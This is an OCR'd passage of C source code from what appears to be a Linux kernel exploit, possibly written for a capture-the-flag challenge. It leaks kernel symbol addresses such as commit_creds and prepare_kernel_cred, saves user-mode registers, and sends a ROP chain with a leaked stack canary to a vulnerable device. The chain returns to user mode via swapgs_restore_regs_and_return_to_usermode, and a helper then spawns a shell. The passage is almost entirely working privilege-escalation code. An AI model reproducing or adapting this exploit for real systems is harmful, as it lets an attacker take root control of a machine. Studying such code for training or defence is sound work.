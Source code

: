 ```c
    printf("[*] __ksymtab_prepare_kernel_cred: 0x%08lx\n", __ksymtab_prepare_kernel_cred);
    printf("[*] swapgs_restore_regs_and_return_to_usermode: 0x%08lx\n", swapgs_restore_regs_and_return_to_usermode);
    puts("wait for attach...");
    getchar();
}

void get_shell()
{
    system("sh");
}

void save_status()
{
    __asm__ volatile(
        ".intel_syntax noprefix \n"
        "mov user_cs, cs \n"
        "mov user_ss, ss \n"
        "mov user_sp, rsp \n"
        "pushf \n"
        "pop user_rflags \n"
        ".att_syntax \n"
    );
    puts("[*] save status");
}

void leak_commit_creds()
{
    unsigned long user_rip = (unsigned long) leak_prepare_kernel_cred;
    
    /* rop */
    unsigned long rop[50];
    int off = (0xa0 - 0x20) / sizeof(unsigned long);
    rop[off++] = canary; // 0x20
    rop[off++] = 0; // 0x18
    rop[off++] = 0; // 0x10
    rop[off++] = 0; // 0x08
    rop[off++] = pop_rax_ret;
    rop[off++] = __ksymtab_commit_creds;
    rop[off++] = read_rax_pop_rbp_ret;
    rop[off++] = 0;
    rop[off++] = swapgs_restore_regs_and_return_to_usermode + 0x16;
    rop[off++] = 0;
    rop[off++] = 0;
    rop[off++] = user_rip;
    rop[off++] = user_cs;
    rop[off++] = user_rflags;
    rop[off++] = user_sp;
    rop[off++] = user_ss;

    if (write(devfd, rop, sizeof(rop)) < 0)
        perror("[-] write dev failed");
    puts("[+] leak commit_creds");
}

void leak_prepare_kernel_cred()
{
    __asm__ volatile(
        ".intel_syntax noprefix \n"
        "mov tmp, rax \n"
        ".att_syntax \n"
    );
    commit_creds = (int) tmp + __ksymtab_commit_creds;
```